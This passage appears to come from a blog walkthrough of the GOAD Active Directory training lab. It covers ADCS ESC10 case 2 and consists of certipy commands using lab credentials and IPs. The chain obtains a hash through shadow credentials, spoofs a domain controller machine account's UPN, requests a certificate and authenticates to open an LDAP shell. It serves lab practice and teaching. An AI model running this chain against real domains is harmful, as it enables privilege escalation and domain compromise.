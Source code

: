 ![part14_esc10_case1.png](/assets/blog/GOAD/part14_esc10_case1.png)

### ESC10 - case 2 - CertificateMappingMethods 0x04
Same as before but we will change the UPN to 'kingslanding$@sevenkingdoms.local' instead of administrator

```bash
# get joffrey hash with shadowcredentials
certipy shadow auto -username "jaime.lannister@sevenkingdoms.local" -p "cersei" -account joffrey.baratheon -dc-ip 192.168.56.10

# change jeoffrey UPN to kingslanding$
certipy account update -username "jaime.lannister@sevenkingdoms.local" -p "cersei" -user joffrey.baratheon -upn 'kingslanding$@sevenkingdoms.local' -dc-ip 192.168.56.10

# ask for certificate
certipy req -username "joffrey.baratheon@sevenkingdoms.local" -hashes "3b60abbc25770511334b3829866b08f1" -target "192.168.56.10" -ca 'SEVENKINGDOMS-CA' -template 'user' -debug

# Rollback upn modification
certipy account update -username "jaime.lannister@sevenkingdoms.local" -p "cersei" -user joffrey.baratheon -upn joffrey.baratheon -dc-ip 192.168.56.10

# Connect via schannel with the certificate 
certipy auth -pfx 'kingslanding.pfx' -domain "sevenkingdoms.local" -dc-ip 192.168.56.10 -ldap-shell
```
